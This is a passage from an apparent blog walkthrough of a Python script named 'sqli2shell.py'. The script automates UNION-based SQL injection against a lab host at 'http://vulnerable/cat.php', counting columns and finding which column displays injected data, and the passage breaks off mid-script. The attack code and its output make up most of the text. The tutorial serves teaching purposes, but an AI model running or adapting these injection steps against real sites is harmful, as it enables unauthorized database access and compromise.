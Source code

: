         print "    [+] More than 3 columns"
    else:
        print "    [+] 3 columns in database!"
        unknown_columns = False

    # 4 columns
    build_url = build_url + ",%204"
    r = urllib2.urlopen(build_url)
    b = r.read()

    search = re.search(wrong_columns, b)

    if search:
        print "    [+] More than 4 columns"
    else:
        print "    [+] 4 columns in database!"
        unknown_columns = False
{% endhighlight %}

And it discovers the 4 columns

```
$ python sqli2shell.py
[+] Checking number of columns...
    [+] More than 1 column
    [+] More than 2 columns
    [+] More than 3 columns
    [+] 4 columns in database!
```

We can test which column displays the injected data

{% highlight python linenos %}
#!/usr/bin/python
# SQLi to Shell Script
# www.maxmunday.com 
import urllib2
import re

# discover displaying column
print "[+] Checking displaying column..."

display = "5.1.63-0"
url = "http://vulnerable/cat.php?id=1%20UNION%20SELECT%20"
unknown_display = True

while unknown_display:
    
    # 1st column displays
    r = urllib2.urlopen(url+"version(),2,3,4")
    b = r.read()
    search = re.search(display, b)

    if search:
        print "    [+] First column displays data!"
        unknown_display = False
    else:
        print "    [+] No data printed in first column"

    # 2nd column displays